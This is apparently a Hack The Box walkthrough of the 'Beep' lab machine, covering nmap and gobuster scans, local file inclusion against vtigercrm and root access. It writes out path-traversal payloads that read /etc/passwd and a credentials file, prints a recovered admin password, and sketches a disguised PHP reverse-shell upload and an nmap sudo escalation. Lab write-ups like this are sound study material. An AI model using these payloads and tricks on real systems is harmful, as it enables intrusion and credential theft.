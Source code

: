 ```yaml
---
title: Beep
author: fieldraccoon
date: 2020-06-24 
categories: [hack-the-box, linux]
tags: [hack-the-box, easy, metasploit, burp, lfi,]
math: true
---
```


# BEEP

Beep was an easy linux box that requried an interesting LFI exploit to read the user flag which lead to another lfi to read a file containing creds. There was multiple methodds for root including a simple ssh as root or spawning a reverse shell on the system and privelege escalating to root via sudo -l and exploiting nmap
> Nmap

```shell
root@kali:~/boxes/beep/# nmap -sS -A 10.10.10.7

Starting Nmap 7.50 ( https://nmap.org ) at 2018-03-03 04:36 EST
Nmap scan report for 10.10.10.7
Host is up (0.16s latency).
Not shown: 988 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
| 1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_ 2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp open http Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp open pop3 Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp open rpcbind 2 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2 111/tcp rpcbind
| 100000 2 111/udp rpcbind
| 100024 1 742/udp status
|_ 100024 1 745/tcp status
143/tcp open imap Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: Completed OK ATOMIC URLAUTHA0001 RIGHTS=kxte IMAP4rev1 THREAD=ORDEREDSUBJECT LITERAL+ ANNOTATEMORE LIST-SUBSCRIBED CONDSTORE UIDPLUS CATENATE BINARY MAILBOX-REFERRALS LISTEXT IDLE RENAME ID IMAP4 QUOTA X-NETSCAPE THREAD=REFERENCES SORT=MODSEQ SORT CHILDREN NAMESPACE MULTIAPPEND STARTTLS NO ACL UNSELECT
443/tcp open ssl/http Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after: 2018-04-07T08:22:08
|_ssl-date: 2018-03-03T09:21:37+00:00; -19m56s from scanner time.
993/tcp open ssl/imap Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp open pop3Cyrus pop3d
3306/tcp open mysql MySQL (unauthorized)
4445/tcp open upnotifyp?
10000/tcp open http MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1). No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ). TCP/IP fingerprint:
OS:SCAN(V=7.50%E=4%D=3/3%OT=22%CT=1%CU=41868%PV=Y%DS=2%DC=T%G=Y%TM=5A9A6E1C
OS:%P=i686-pc-linux-gnu)SEQ(SP=CB%GCD=2%ISR=CD%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=C
OS:B%GCD=1%ISR=CC%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DN
OS:NT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3
OS:=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N
OS:%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A
OS:0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O
OS:=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40
OS:%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q
OS:=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y
OS:%DFI=N%T=40%CD=S)
```
Our nmap scan shows alot of information but we narrow down and try to take away the important details.

On port `80` the service `elastix` is running. It is just simply a login page for what should be htb elastix service which we will need to exploit later.

We run a gobuster scan in dir mode to check for hidden directories to help our enumeration.

```shell
root@kali:~/Desktop# gobuster -e -u https://10.10.10.7/ -t 500 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

Gobuster v1.2 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : https://10.10.10.7/
[+] Threads : 500
[+] Wordlist : /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,307
[+] Expanded : true
=====================================================
https://10.10.10.7/help (Status: 301)
https://10.10.10.7/modules (Status: 301)
https://10.10.10.7/themes (Status: 301)
https://10.10.10.7/lang (Status: 301)
https://10.10.10.7/static (Status: 301)
https://10.10.10.7/admin (Status: 301)
https://10.10.10.7/images (Status: 301)
https://10.10.10.7/var (Status: 301)
https://10.10.10.7/mail (Status: 301)
https://10.10.10.7/panel (Status: 301)
https://10.10.10.7/libs (Status: 301)
https://10.10.10.7/recordings (Status: 301)
https://10.10.10.7/configs (Status: 301)
https://10.10.10.7/vtigercrm (Status: 301)
```

We take a look at the `/vtingercrm` we can see that its running the `vtingercrm` service.

We search for epxloits and comme accross one on exploit-db that shows that it is an LFI and we can read the user flag an any other file with permissions for read access from the user.

> Links [https://www.exploit-db.com/exploits/18770](https://www.exploit-db.com/exploits/18770)

We use this and carry out a few commands like this:

```shell
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00
```

With this we can read the` /etc/passwd` file and it shows a user called `fanis` from here we can change the file name to try and raed the user flag.
```shell
https://localhost/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.ph
p?module_name=../../../../../../../../home/fanis/user.txt%00

And we get user on the box!

# ROOT
Now using the second LIF that we found on exploit db [https://www.exploit-db.com/exploits/37637](https://www.exploit-db.com/exploits/37637)
```shell
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

We do this and we read the creds for the administrator for the vtigercrm service 

```Username = admin
Password = jEhdIekWmdjE
```
From here we can simply ssh as root into the box and read the root flag. This is the first method.

I wont cover the rest fully i was do a quick brief.

For root 1 method you can login into vtiger with the creds and navigating around the website you will find an upload section where you can upload a jpg file. We can upload a php reverse shell aslong as we name it shell.php.jpg and we can change the contents in burpsuite to change the needs required, from here we set up a listener and we get a shell.

Note meastploit can also be used with a payload and a listener

For the priv esc we run `sudo -l` shows us that we can run nmap as root. We simply run `sudo nmap --interactive` to spawn a shell with interactive mode on nmap.

Thanks for reading hpoe you enjoyed.
